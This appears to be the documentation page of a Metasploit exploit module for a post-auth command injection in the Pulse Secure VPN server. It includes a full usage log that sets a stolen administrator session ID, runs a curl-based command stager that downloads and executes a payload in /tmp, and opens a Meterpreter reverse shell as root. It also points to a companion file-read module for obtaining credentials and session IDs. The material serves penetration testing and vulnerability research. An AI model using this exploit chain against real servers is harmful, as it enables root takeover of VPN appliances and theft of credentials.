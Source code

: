 ## Introduction

This module exploits a post-auth command injection in the Pulse Secure
VPN server to execute commands as root. The `env(1)` command is used to
bypass application whitelisting and run arbitrary commands.

Please see related module `auxiliary/gather/pulse_secure_file_disclosure`
for a pre-auth file read that is able to obtain plaintext and hashed
credentials, plus session IDs that may be used with this exploit.

A valid administrator session ID is required in lieu of untested SSRF.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**SID**

Set this to a valid administrator session ID. Typically retrieved using
the `auxiliary/gather/pulse_secure_file_disclosure` module.

## Usage

```
msf5 exploit(linux/http/pulse_secure_cmd_exec) > set sid 676f5f892e8c4a6419f10564f9e9d857
sid => 676f5f892e8c4a6419f10564f9e9d857
msf5 exploit(linux/http/pulse_secure_cmd_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:[redacted]
[+] Setting session cookie: DSID=676f5f892e8c4a6419f10564f9e9d857
[*] Obtaining CSRF token
[+] CSRF token: 6b0e020e1de8c68c043ea0e4f663b7a5
[*] Executing Linux Dropper target
[*] Using URL: https://0.0.0.0:[redacted]/HSEjp77
[*] Local IP: https://[redacted]:[redacted]/HSEjp77
[*] Generated command stager: ["curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77", "chmod +x /tmp/qlUqDxCU", "/tmp/qlUqDxCU", "rm -f /tmp/qlUqDxCU"]
[*] Executing command: env /home/bin/curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Client 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18) requested /HSEjp77
[*] Sending payload to 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18)
[+] Payload execution successful
[*] Command Stager progress -  63.96% done (71/111 bytes)
[*] Executing command: env chmod +x /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress -  87.39% done (97/111 bytes)
[*] Executing command: env /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Meterpreter session 1 opened (127.0.0.1:[redacted] -> 127.0.0.1:53200) at 2019-11-12 02:05:40 -0600
[!] Payload execution may have failed
[*] Command Stager progress - 102.70% done (114/111 bytes)
[*] Executing command: env rm -f /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress - 123.42% done (137/111 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : [redacted]
OS           :  (Linux 2.6.32-00486-gddd7e32-dirty)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
